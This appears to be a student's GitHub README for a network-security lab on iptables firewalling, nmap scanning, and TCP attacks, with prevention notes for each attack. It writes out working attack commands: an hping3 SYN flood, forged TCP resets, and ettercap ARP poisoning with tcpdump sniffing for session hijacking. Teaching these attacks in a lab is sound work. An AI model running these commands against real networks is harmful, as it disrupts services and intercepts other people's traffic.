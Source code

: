 
# Lab 07 - IPTables & TCP/IP Attacks  

## 📖 Overview  
- Configuring IPTables to allow only SSH and HTTP traffic  
- Scanning open ports on a target system using Nmap  
- Understanding TCP-based attacks: SYN Flood, TCP Reset, and TCP Session Hijacking  

---

## ⚙️ **Tools & Commands Used**  
| Tool/Command   | Description |
|---------------|------------|
| `iptables` | Firewall utility for managing packet filtering |
| `iptables -A FORWARD -p tcp --dport 22 -j ACCEPT` | Allows SSH traffic |
| `iptables -A FORWARD -p tcp --dport 80 -j ACCEPT` | Allows HTTP traffic |
| `iptables -A FORWARD -j DROP` | Blocks all other forwarded traffic |
| `nmap -n <IP>` | Scans open ports on a target machine |
| `hping3` | Tool for crafting TCP packets and launching attacks |
| `ettercap` | Used for ARP poisoning & TCP session hijacking |
| `tcpdump` | Captures network traffic for analysis |

---

## 📂 **Lab Tasks**  

### 1️⃣ **Configuring a Firewall with IPTables**  
- Set up IPTables to allow only SSH (22) and HTTP (80)  
- Verified firewall rules by scanning the server using Nmap  

### 2️⃣ **TCP/IP Attacks & Security Considerations**  

#### 🔹 **SYN Flood Attack**  
- Sends numerous SYN packets to exhaust server connections  
- Command:  
  ```bash
  hping3 -S --flood -p 80 172.25.0.3
  ```
- Prevention: Rate limiting and SYN cookies  

#### 🔹 **TCP Reset Attack**  
- Sends forged RST packets to terminate active TCP sessions  
- Command:  
  ```bash
  hping3 -R -p 22 172.25.0.3
  ```
- Prevention: Firewall rules and TCP filtering  

#### 🔹 **TCP Session Hijacking**  
- Intercepts and manipulates an existing TCP session  
- Commands:  
  ```bash
  ettercap -T -M arp /<target_IP>/ /<gateway_IP>/
  tcpdump -i eth0 -A port 23
  ```
- Prevention: Use encrypted protocols, ARP spoofing detection, and firewall rules  

---

## 🎯 **Key Takeaways**  
- IPTables controls access to network services  
- Firewalls should block unnecessary ports  
- TCP attacks exploit insecure configurations  
- Security best practices include using SSH instead of Telnet, enabling SYN cookies, and blocking unauthorized traffic  

---

## 🛠 **Additional Resources**  
- [IPTables Firewall Guide](https://www.digitalocean.com/community/tutorials/iptables-essentials-common-firewall-rules-and-commands)  
- [Understanding SYN Flood Attacks](https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/)  
- [How TCP Session Hijacking Works](https://owasp.org/www-community/attacks/Session_hijacking_attack)  
```
